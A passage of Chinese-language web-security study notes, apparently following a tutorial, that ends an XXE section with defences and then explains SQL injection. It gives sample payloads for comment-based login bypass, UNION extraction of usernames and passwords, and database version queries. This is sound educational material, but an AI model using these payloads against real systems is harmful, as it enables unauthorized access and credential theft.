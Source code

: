 对于3，使用XInclude

总结：

发现注入点：

1. 明显的XML数据格式
2. 部分XML嵌入
3. 尝试更换POST请求方法的内容格式

利用：。。。

**防范方法**

1. 通过后端设置，禁止XML的那些危险的特性，外部实体定义什么的
1. 禁止XInclude

### SQL注入
通过注入特殊符号绕过正常逻辑，如 注释符号：-- (Oracle,PostgreSQL) -- /#(MySQL)    像js注入，xss注入

盲注：布尔，时延  ，报错。   注入：UNION ，堆叠注入 ;

1. 查询信息    注入方式  输入后面跟 '--  或是通过XML表单 JSON来操作

   > 可以通过ORDER BY 1-- 来确认是Oracle还是MySQL数据库

   ```sql
   https://insecure-website.com/products?category=Gifts'--
   SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
   
   SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
   
   ```

2. 查询其他的表UNION 堆叠注入

   ```sql
   SELECT name, description FROM products WHERE category = 'Gifts'
   ' UNION SELECT username, password FROM users--
   ```

3. 检索数据库其他信息  表，版本

   > ' UNION SELECT @@version--
   >
   > 版本信息：对于Oracle 数据库而言，每次SELECT操作需要FROM一个表，当没有时，使用内置的表dual
   
   |  Database Type   |          Query          |
   | :--------------: | :---------------------: |
   | Microsoft ,MySQL |    SELECT @@version     |
   |      Oracle      | SELECT * FROM v$version |
   |    PostgreSQL    |    SELECT version()     |

   > 
   >
   > 查所有数据库表和表的所有列名
   